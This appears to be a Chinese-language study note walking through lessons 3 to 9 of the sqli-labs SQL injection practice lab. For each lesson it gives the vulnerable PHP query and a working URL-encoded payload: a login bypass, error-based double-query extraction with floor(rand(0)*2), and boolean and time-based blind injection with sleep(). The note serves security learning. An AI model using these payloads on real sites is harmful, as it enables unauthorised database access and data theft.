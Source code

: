 - ** less 3 GET - Error based - single quotes with twist - string**</br>
	php中代码 $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1"; 用括号和单引号进行了过滤</br>
	思路：消除括号</br>
	?id=%27)or%20username%3D%27admin%27or%20(%27  成功


- ** less 4  GET - Error based - Double Quotes - String ** </br>
	php中代码</br>
	$id = '"' . $id . '"';</br>
	$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";</br>
	?id=%27)or%20username%3D%27admin%27or%20(%27 成功</br>

    关于前四个less的一些心得：
    	1.找错误：
    		尝试着单引号，双引号，括号等特殊字符注入，如果有报错信息，多半就是该符号出问题
    		例：?id="
    				 返回You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '""") LIMIT 0,1' at line 1
    			可以看出输入所在位置为（“输入”）
    	2.注入利用
    		通过union来执行自己想要的sql

- ** less 5  GET - Double Injection - Single Quotes - String ** </br>
双查询注入（双查询：select嵌套select）</br>
	输入?id=‘ 失败， use near 1  由此猜测为单引号</br>
	?id='%20or%20username%3D%27admin 成功 </br>
	但是sql执行结果前端并没有进行输出，怎么利用？</br>

	查询资料后发现：Double injection 双注入。一些研究人员发现，使用group by子句结合rand()函数以及像count（\*）这样的聚合函数，在SQL查询时会出现错误，这种错误是随机产生的，这就产生了双重查询注入。</br>
	发现多查询几次会爆出duplicate entry的错误，且将我们需要的信息都爆出来了。（正常结果未返回显示，所以通过错误信息去获得我们想要的信息，有随机性，需要重复多次）</br>
	count() 计数</br>
	rand() 随机</br>
	group by 分组</br>
	floor() 向下取整，舍弃小数部分</br>

	?id=-1%27%20union%20select%201%2c(select%20count(\*)%20from%20information_schema.schemata%20group%20by%20concat(version()%2cfloor(rand(0)\*2)))%2c3%20%23 成功</br>
	Duplicate entry '5.7.23-0ubuntu0.16.04.11' for key ''
	其中version(）是我们希望执行的函数，可以换成其它

- ** less 6 GET - Double Injection - Double Quotes - String ** </br>

	?id=-1%22%20union%20select%201%2c(select%20count(\*)%20from%		20information_schema.schemata%20group%20by%20concat(version()%2cfloor(rand(0)\*2)))%2c3%20%23 成功

- ** less 7 GET - Dump into outfile - String ** </br>
	文件导入限制条件多，未成功

- ** less 8 GET - Blind - Boolian Based - Single Quotes ** </br>
	?id=-1%27or%201%3d1%23 </br>
	利用二分与返回结果的正确与否，来猜测验证数据库内容

- ** less 9 GET - Blind - Time Based - Single Quotes ** </br>
	?id=1%27%20and%20if(ascii(substr(database(),1,1))>116,%200,%20sleep(5))%20%23 </br>
	因为在这正确或者错误都是返回的"you are in" 所以不能区分 </br>
  ![youarein](../../../images/security/sql/youarein.png)
	使用时间延迟，例子为判断数据库名字第一个字是否为s(ascii码为115)，要进行多次尝试

